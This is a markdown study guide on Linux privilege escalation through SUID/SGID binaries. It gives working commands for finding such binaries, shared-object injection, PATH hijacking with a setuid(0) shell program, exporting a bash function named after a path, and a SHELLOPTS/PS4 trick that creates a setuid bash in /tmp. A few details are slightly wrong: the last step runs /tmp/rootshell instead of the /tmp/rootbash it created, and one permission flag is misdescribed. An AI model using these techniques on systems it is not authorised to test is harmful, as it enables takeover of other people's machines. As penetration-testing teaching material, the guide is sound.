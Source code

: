 # Privileges Escalation - Linux
# Exploiting SUID/SGID 

- [Definitions](#definitions)
- [Where are these bits?](#wherearethesebits)
- [Finding SUID/SGID executables](#Finding-SUIDSGID-executables)
- [Shared objects vulnerability](#Shared-objects-vulnerability)
- [Environment variables without full paths](#Environment-variables-without-full-paths)
- [Environment variables with full paths and vulnerable shell](#Environment-variables-with-full-paths-and-vulnerable-shell)

## Definitions
- **SUID**: **Set User ID**. When a binary has the SUID bit set, anyone who runs it does so with the permissions of the file's owner, usually **root**. Useful for allowing users to run programs that require elevated privileges without giving full root access.
- **SGID**: **Set Group ID**. When a binary has the SGID bit set, anyone who runs it does so with the file's group (not the caller's).

## Where are these bits?
If we run the `ls -l` command, this output will be shown:<br> `<Obj Type><User permissions>-<Group permissions> <Obj Owner> <Obj Group>`<br>
(`Obj Type` could be `.` if it's a file or `d` if it's a directory).<br>
So, if we have an `s` in `User permissions`, the file has the SUID bit set. <br>If we have an `s` in `Grpup permissions`, the file has the SGID bit set.

## Finding SUID/SGID executables
- `find / -type f -perm /6000`: finds binaries which have the SUID **or** SGID bit set.
- `find / -type f -perm -6000`: finds binaries which have **both** the SUID **and** SGID bit set.
- `find / -type f -perm -4000`: finds binaries which have **only** the SUID bit set.
- `find / -type f -perm -2000`: finds binaries which have **only** the SGID bit set.

Type `2>/dev/null` in the end to discard the standard error.<br>
If we look for binaries and we find an obsolete one (so vulnerable, for example `/usr/sbin/exim-4.84-3`):
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- Copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects vulnerability
Some binaries could be vulnerable to shared objects injections.
- `strace <Binary Path> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <Binary Path>` to look for readable ASCII or Unicode characters. If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`):
  - We can exploit it creating a `.c` program:
    ```
    int main() {
      setuid(0);  
      system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <name>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <Binary Path>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

## Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). 
<br>If the version is **below** 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

If the shell version is **above** that one, anyway it will read `SHELLOPTS` and `PS4` variables before removing the SUID privileges (known bug). So we can exploit it with:
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <Binary Path>` in which:
    - `env -i` executes a program in an empty environment, without inheriting any variables.
    - `SHELLOPTS=xtrace` turns on the debug mode.
    - `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` sets a debugging prompt, that will be printed before each command.
      - It copies the Bash shell in the `/tmp` directory and gives it execution permissions with UID = 0 (root)
- Now, running the shell with `/tmp/rootshell`, we should be able to gain access to a root shell. Check it with `whoami`.     














